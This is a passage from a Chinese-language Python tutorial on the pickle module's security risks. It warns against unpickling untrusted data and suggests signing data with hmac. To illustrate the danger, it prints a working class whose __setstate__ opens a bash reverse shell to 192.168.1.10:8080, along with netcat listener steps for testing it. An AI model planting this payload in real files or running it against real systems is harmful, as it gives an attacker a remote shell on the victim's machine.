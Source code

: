 ```py
259
```

使用压缩时，请记住较小的文件是以较慢的进程为代价的。

## Python `pickle`模块的安全问题

您现在知道了如何使用`pickle`模块在 Python 中序列化和反序列化对象。当您需要将对象的状态保存到磁盘或通过网络传输时，序列化过程非常方便。

然而，关于 Python `pickle`模块还有一件事你需要知道:它是不安全的。还记得`__setstate__()`的讨论吗？这个方法非常适合在解包时进行更多的初始化，但是它也可以用来在解包过程中执行任意代码！

那么，你能做些什么来降低这种风险呢？

可悲的是，不多。经验法则是**永远不要解压来自不可信来源或通过不安全网络传输的数据**。为了防止[中间人攻击](https://en.wikipedia.org/wiki/Man-in-the-middle_attack)，使用`hmac`之类的库对数据进行签名并确保它没有被篡改是个好主意。

以下示例说明了解除被篡改的 pickle 会如何将您的系统暴露给攻击者，甚至给他们一个有效的远程外壳:

```py
# remote.py
import pickle
import os

class foobar:
    def __init__(self):
        pass

    def __getstate__(self):
        return self.__dict__

    def __setstate__(self, state):
        # The attack is from 192.168.1.10
        # The attacker is listening on port 8080
        os.system('/bin/bash -c
                  "/bin/bash -i >& /dev/tcp/192.168.1.10/8080 0>&1"')

my_foobar = foobar()
my_pickle = pickle.dumps(my_foobar)
my_unpickle = pickle.loads(my_pickle)
```

在这个例子中，拆包进程执行`__setstate__()`，它执行一个 Bash 命令来打开端口`8080`上的`192.168.1.10`机器的远程 shell。

以下是如何在您的 Mac 或 Linux 机器上安全地测试这个脚本。首先，打开终端并使用`nc`命令监听到端口 8080 的连接:

```py
$ nc -l 8080
```

这将是*攻击者*终端。如果一切正常，那么命令似乎会挂起。

接下来，在同一台计算机上(或网络上的任何其他计算机上)打开另一个终端，并执行上面的 Python 代码来清除恶意代码。确保将代码中的 [IP 地址](https://realpython.com/python-ipaddress-module/)更改为攻击终端的 IP 地址。在我的例子中，攻击者的 IP 地址是`192.168.1.10`。

通过执行此代码，受害者将向攻击者公开一个外壳:
